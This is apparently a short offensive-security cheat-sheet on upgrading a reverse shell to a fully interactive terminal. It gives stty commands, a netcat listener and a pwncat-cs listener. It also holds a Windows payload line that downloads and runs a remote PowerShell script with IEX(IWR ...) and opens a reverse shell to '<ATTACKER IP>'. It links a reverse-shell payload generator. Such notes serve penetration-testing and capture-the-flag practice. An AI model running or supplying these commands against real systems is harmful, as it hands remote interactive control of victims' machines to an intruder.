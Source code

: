 # How to upgrade a reverse shell to a fully interactive stty:

A good resource to pimp your reverse shells is [revshells.com](https://www.revshells.com/) 

## The old fashion

```bash
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

## Other methods

Theses handler will automatically create a fully interactive pty when the connection is received

### On Windows

Use [ConPty](https://github.com/antonioCoco/ConPtyShell)

The listener:
```powershell
stty raw -echo; (stty size; cat) | nc -lvnp <PORT>
```

The payload
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ATTACKER IP> <PORT>
```

### On linux

Use [pwncat-cs](https://github.com/calebstewart/pwncat)

The listener:
```sh
pwncat-cs -lp <PORT>
```

You can use any classic payload on the target